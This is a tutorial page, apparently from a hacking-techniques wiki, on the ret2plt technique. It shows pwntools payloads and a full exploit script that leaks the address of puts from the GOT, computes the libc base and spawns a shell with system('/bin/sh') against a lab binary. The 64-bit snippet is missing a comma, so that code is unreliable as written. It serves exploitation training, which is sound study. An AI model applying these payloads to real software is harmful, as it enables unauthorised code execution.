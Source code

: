 # Ret2plt

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Resources Training AWS Red Team Expert (ARTE)**](https://training.khulnasoft.com/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Resources Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.khulnasoft.com/courses/grte)

<details>

<summary>Support Resources</summary>

* Check the [**subscription plans**](https://patreon.com/khulnasoft)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@resources\_live**](https://twitter.com/khulnasoft\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**Resources**](https://github.com/khulnasoft/resources) and [**Resources Cloud**](https://github.com/khulnasoft/resources-cloud) github repos.

</details>
{% endhint %}

## Basic Information

The goal of this technique would be to **leak an address from a function from the PLT** to be able to bypass ASLR. This is because if, for example, you leak the address of the function `puts` from the libc, you can then **calculate where is the base of `libc`** and calculate offsets to access other functions such as **`system`**.

This can be done with a `pwntools` payload such as ([**from here**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt\_and\_got)):

```python
# 32-bit ret2plt
payload = flat(
    b'A' * padding,
    elf.plt['puts'],
    elf.symbols['main'],
    elf.got['puts']
)

# 64-bit
payload = flat(
    b'A' * padding,
    POP_RDI,
    elf.got['puts']
    elf.plt['puts'],
    elf.symbols['main']
)
```

Note how **`puts`** (using the address from the PLT) is called with the address of `puts` located in the GOT (Global Offset Table). This is because by the time `puts` prints the GOT entry of puts, this **entry will contain the exact address of `puts` in memory**.

Also note how the address of `main` is used in the exploit so when `puts` ends its execution, the **binary calls `main` again instead of exiting** (so the leaked address will continue to be valid).

{% hint style="danger" %}
Note how in order for this to work the **binary cannot be compiled with PIE** or you must have **found a leak to bypass PIE** in order to know the address of the PLT, GOT and main. Otherwise, you need to bypass PIE first.
{% endhint %}

You can find a [**full example of this bypass here**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/ret2plt-aslr-bypass). This was the final exploit from that **example**:

```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvline()

payload = flat(
    'A' * 32,
    elf.plt['puts'],
    elf.sym['main'],
    elf.got['puts']
)

p.sendline(payload)

puts_leak = u32(p.recv(4))
p.recvlines(2)

libc.address = puts_leak - libc.sym['puts']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
    'A' * 32,
    libc.sym['system'],
    libc.sym['exit'],
    next(libc.search(b'/bin/sh\x00'))
)

p.sendline(payload)

p.interactive()
```

## Other examples & References

* [https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html)
  * 64 bit, ASLR enabled but no PIE, the first step is to fill an overflow until the byte 0x00 of the canary to then call puts and leak it. With the canary a ROP gadget is created to call puts to leak the address of puts from the GOT and the a ROP gadget to call `system('/bin/sh')`
* [https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html)
  * 64 bits, ASLR enabled, no canary, stack overflow in main from a child function. ROP gadget to call puts to leak the address of puts from the GOT and then call an one gadget.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Resources Training AWS Red Team Expert (ARTE)**](https://training.khulnasoft.com/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Resources Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.khulnasoft.com/courses/grte)

<details>

<summary>Support Resources</summary>

* Check the [**subscription plans**](https://patreon.com/khulnasoft)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@resources\_live**](https://twitter.com/khulnasoft\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**Resources**](https://github.com/khulnasoft/resources) and [**Resources Cloud**](https://github.com/khulnasoft/resources-cloud) github repos.

</details>
{% endhint %}


